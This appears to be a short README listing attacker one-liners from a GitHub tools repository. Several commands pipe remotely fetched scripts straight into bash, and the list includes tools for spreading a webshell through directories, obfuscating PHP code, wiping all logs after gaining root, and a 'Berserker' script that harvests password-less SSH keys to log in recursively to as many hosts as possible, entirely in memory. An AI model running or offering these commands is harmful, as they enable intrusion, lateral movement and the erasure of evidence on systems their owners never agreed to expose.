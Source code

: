 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/oxygencall/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
Clear all logs if gain root
```sh
wget https://raw.githubusercontent.com/oxygencall/tools/master/clear.sh
```
The Berserker looks for password-less ssh-keys (such as ~/.ssh/id_rsa) and then attempts to log in to as many hosts as possible. It repeats its action recursively. All this without writing or installing any data on any host. It’s an in-memory infiltration only.
```sh
export BS="$(curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/bs)" && bash -c "BS_DEPTH=1 $BS"

